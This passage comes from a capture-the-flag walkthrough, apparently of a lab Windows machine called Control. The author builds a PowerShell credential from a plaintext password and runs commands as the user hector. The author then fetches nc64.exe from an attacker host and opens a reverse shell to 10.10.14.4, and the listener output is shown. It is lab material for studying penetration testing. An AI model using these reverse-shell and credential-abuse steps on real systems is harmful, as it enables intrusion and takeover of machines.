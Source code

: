 

    C:\>powershell

    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

    PS C:\>



Now I'll create a credential object:



    PS C:\> $env:ComputerName
    CONTROL
    PS C:\> $username = "CONTROL\hector"
    PS C:\> $password = "l33th4x0rhector"
    PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
    PS C:\> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr



Now I'll use `Invoke-Command` to run commands as hector, and it works:



    PS C:\> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
    control\hector



### Shell as hector

For some reason, hector can't access the `nc.exe` I uploaded to
`\windows\temp`, but I'll upload another copy, and run it:



    PS C:\> wget 10.10.14.4/nc64.exe -outfile \windows\system32\spool\drivers\color\nc64.exe

    PS C:\> Invoke-Command -credential $cred -ScriptBlock { \windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.4 443 } -computer localhost



And I get a shell as hector:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.167.
    Ncat: Connection from 10.10.10.167:52486.
    Microsoft Windows [Version 10.0.17763.805]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\Hector\Documents>

